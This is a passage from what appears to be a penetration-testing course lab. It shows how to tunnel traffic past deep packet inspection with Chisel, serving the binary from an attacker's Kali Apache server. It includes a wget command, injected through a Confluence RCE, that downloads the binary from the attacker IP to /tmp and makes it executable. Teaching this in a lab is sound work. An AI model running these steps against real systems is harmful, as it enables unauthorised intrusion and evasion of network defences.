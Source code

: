 Figure 2: How we intend out network setup to look once we have Chisel set up

The traffic between the Chisel client and server is all HTTP-formatted. This means we can traverse the deep packet inspection solution regardless of the contents of each HTTP packet. The Chisel server on our Kali machine will listen on TCP port 1080, a SOCKS proxy port. All traffic sent to that port will be passed back up the HTTP tunnel to the Chisel client, where it will be forwarded wherever it's addressed.

Let's get the Chisel server up and running on our Kali machine. In the [usage guide](https://github.com/jpillora/chisel#usage), we find the **\--reverse** flag. Starting the Chisel server with this flag will mean that when the client connects, a SOCKS proxy port will be bound on the server.

Before we start the server, we should copy the Chisel client binary to CONFLUENCE01. The Chisel server and client are run from the same binary, they're just initialized with either _server_ or _client_ as the first argument.

If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the [Chisel Github releases page](https://github.com/jpillora/chisel/releases).

In this case, both CONFLUENCE01 and our Kali machine are _amd64_ Linux machines. That means we can try to run the same **chisel** binary we have on our Kali machine on CONFLUENCE01.

To get the Chisel binary onto CONFLUENCE01, we can leverage the injection to download it from our Kali machine over HTTP. We can serve the **chisel** binary using Apache. In order to do this, we must first copy the Chisel binary to our Apache2 server's webroot directory.

```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ 
```

> Listing 1 - Copying the Chisel binary to the Apache2 server folder.

We can then make sure that Apache2 is started on our Kali machine using **systemctl**.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

> Listing 2 - Starting Apache2.

Next, we will build the **wget** command we want to run through the injection on CONFLUENCE01. This command will download the **chisel** binary to **/tmp/chisel** and make it executable:

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

> Listing 3 - The Wget payload we use to download the Chisel binary to /tmp/chisel on CONFLUENCE01 and make it executable.

Next, we'll format this command to work with our **curl** Confluence injection payload.

As before, you can modify the specific parts of the URL-encoded RCE payload that you need to, rather than trying to build a new payload from scratch, to avoid formatting difficulties.
